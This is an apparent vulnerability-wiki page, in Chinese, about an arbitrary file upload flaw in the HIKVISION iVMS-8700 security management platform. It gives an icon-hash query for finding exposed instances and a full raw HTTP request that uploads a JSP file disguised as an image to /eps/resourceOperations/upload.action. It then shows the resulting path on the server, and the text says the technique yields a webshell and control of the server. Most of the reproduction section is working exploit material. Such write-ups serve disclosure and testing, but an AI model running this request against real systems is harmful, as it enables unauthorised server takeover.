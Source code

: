 # HIKVISION iVMS-8700综合安防管理平台 upload.action 任意文件上传

## 漏洞描述

HIKVISION iVMS-8700综合安防管理平台存在任意文件上传漏洞，攻击者通过发送特定的请求包可以上传Webshell文件控制服务器

## 漏洞影响

<a-checkbox checked>HIKVISION iVMS-8700综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="-911494769"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1637649859645-abee2ae8-c4e5-46a1-b50e-54f9b7e7c019-20230622122052279.png)

发送请求包上传文件

```python
POST /eps/resourceOperations/upload.action HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: MicroMessenger
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ISMS_8700_Sessionname=CA0F207A6372FE883ACA78B74E6DC953; CAS-USERNAME=058; ISMS_8700_Sessionname=4D808BE7BE0E5C7047B9688E6009F710
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Length: 212

------WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Disposition: form-data; name="fileUploader";filename="test.jsp"
Content-Type: image/jpeg

<%out.print("hello");%>
------WebKitFormBoundaryTJyhtTNqdMNLZLhj--
```

上传路径

![img](/assets/PeiQi-Wiki/img/1684382043879-83c87924-60a0-40d2-a8b4-54210e068734.png)

```python
/eps/upload/769badc8ef5944da804a4ca3c8ecafb0.jsp
```

![img](/assets/PeiQi-Wiki/img/1684382084856-9d10ea21-17af-4290-89ed-76420b8b3cd9.png)